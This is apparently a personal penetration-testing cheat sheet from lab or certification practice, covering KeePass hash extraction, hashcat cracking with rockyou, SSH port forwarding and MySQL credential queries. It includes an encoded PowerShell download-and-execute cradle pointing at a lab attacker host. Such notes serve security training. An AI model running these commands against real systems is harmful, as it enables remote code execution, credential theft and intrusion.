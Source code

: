 ### Obtain hash from KeePass database 

```
keepass2john CEH.kdbx
```

## Hashcat

[Hash modes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```
hashcat -m 13400 jeeves-keepass.hash /usr/share/wordlist/rockyou.txt
```

hashcat hashes with user:pass
```
hashcat -m 0 --user user.hashes /usr/share/wordlists/rockyou.txt
```

show matches
```
hashcat -m 0 --user user.hashes /usr/share/wordlists/rockyou.txt --show
```

# Encoding Payloads

## Windows 

Base64 (UTF-16LE) encode using Kali terminal

```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8001/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```


# Port Forwarding 

Web server running on remote host on port 8443 & want to access via local web browser. Execute this on kali shell
```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184 -N
```

Then navigate to 127.0.0.1:8443 in web browser

Another example:
![[OSCP/attachments/Pasted image 20250622143231.png]]

# MYSQL 

See column names from table
```
describe llx_user;
```

View specific column data  from table
```
select login, pass, pass_crypted from llx_user;
```